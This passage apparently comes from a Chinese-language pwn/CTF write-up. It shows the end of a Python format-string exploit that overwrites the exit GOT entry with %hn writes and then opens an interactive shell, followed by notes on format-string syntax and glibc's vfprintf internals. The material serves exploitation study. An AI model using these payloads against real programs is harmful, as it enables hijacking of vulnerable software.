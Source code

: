 ```python
            written += n - written_mask
            return n - written_mask
        else:
            written += ((1 << bits) - written_mask) + n
            return ((1 << bits) - written_mask) + n

    payload = b''
    payload += ("%" + str(next_payload(one & 0xffff, 16)) + "c%10$hn").encode()
    payload += ("%" + str(next_payload((one & 0xffffffff) >> 16, 16)) + "c%11$hn").encode()
    payload = payload.ljust(0x20, b'\x00')
    payload += p64(exit_got) + p64(exit_got + 2)[:-1] # 10$, 11$
    r.send(payload)
    print("--- Lucky! ---")
    r.interactive()
    break
```



- format string 的格式為 `%[parameter][flags][field width][.precision][length]type`
  - `%` 為 prefix
  - `%XX$n`: `XX$`被稱作 positional parameter，而 `n` 為 type
- `%XXX%hn` 是透過 `#define process_arg(fspec)` (stdio-common/vfprintf.c) 來完成的
  - 一個在 `vfprintf()` 內 - https://elixir.bootlin.com/glibc/glibc-2.28/source/stdio-common/vfprintf.c#L1637
  - 一個在 `printf_positional()` 內 - https://elixir.bootlin.com/glibc/glibc-2.28/source/stdio-common/vfprintf.c#L2017
- 可以使用 `%*c` 來多使用一個 parameter
- fmt 除了蓋 main 的 return 之外，也朝蓋 glibc function return address 的方向來思考

